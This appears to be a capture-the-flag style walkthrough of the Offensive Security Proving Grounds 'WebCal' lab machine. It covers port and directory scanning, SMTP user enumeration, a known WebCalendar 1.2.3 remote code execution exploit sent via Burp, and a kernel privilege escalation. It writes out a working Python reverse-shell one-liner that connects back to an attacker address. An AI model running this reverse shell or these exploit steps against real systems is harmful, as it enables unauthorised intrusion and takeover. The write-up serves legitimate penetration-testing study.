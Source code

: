 #### Enumeration

##### Nmap 

```
nmap -Pn -p- -sC -sV 192.168.191.37 -T4 -oN WebCal.nmap
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-24%20213757.png)

##### FTP

```
ftp -p 192.168.191.37 21 
```

Not allow anonymous login.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-24%20233404.png)

##### HTTP

Try to find exploits in the HTTP service first.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20010855.png)

Click the NOTIFY ME button at the bottom right of the webpage. It leads to the send.php page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20012840.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20013044.png)

Scan directories.

```
feroxbuster -u http://192.168.191.37 -w /usr/share/wordlists/directory-list-2.3-medium.txt
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20010345.png)

Analyze send.php in Burp Suite but I don’t know what it means, so I continue to look for other possibilities.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.25_14h42m26s_002_.png)

##### SMTP

Enumerate user names, nothing special.

```
smtp-user-enum -M RCPT -U /usr/share/wordlists/names.txt -t 192.168.191.37 -m 10 -f user@example.com
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal%202021-06-25%20092925.png)

Go back and scan directories with different dir list. Find the webcalendar.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.25_21h00m22s_006_.png)

Guess the login admin///admin (find in doc) but failed. (hydra with rockyou.txt failed :dizzy_face: )

```
http://<IP>/webcalendar/docs/WebCalendar-SysAdmin.html
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.25_22h38m37s_009_.png)

Look for available vulnerabilities and find a [WebCalendar RCE](https://www.exploit-db.com/exploits/18775), because the server is running version 1.2.3, so it might work.

After reading the description. I plan to use Burp Suite to send the exploit request. Note that the code is written for use in PHP. The escape character backslash in the string must be removed. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h36m16s_008_.png)

I use the Repeater function to make it easier to test. First, send exploit payload.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h02m07s_002_.png)

Second, use a simple command to test whether the exploit is successful. Convert `ls` command string into base64 format `bHM=`. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h37m37s_009_.png)

If you get response code 408 try to set the body encoding.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h18m42s_005_.png)

Now we can confirm that the exploit works and then try to send the reverse shell command. 

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h15m13s_004_.png)

Use the python command below to successfully get the connection. Convert the code to base64 format before sending.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.49.191",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' 
```
![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_16h00m41s_016_.png)

www-data

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h32m54s_006_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h34m59s_007_.png)

#### Privilege Escalation

Execute linpeas.sh file to obtain suggestions.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h45m28s_011_.png)

![imahe](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h42m51s_010_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_14h46m39s_012_.png)

Reviewing the list, I found that the server uses an old version of the Linux kernel.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_15h00m12s_013_.png)

After Googling, there is a possible suitable vulnerability "empodipper".

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_15h02m29s_014_.png)

The first vulnerability attack method failed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_13h05m22s_001_.png)

Use the second vulnerability attack method to obtain root permission successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/WebCal/WebCal_2021.06.26_15h07m50s_015_.png)
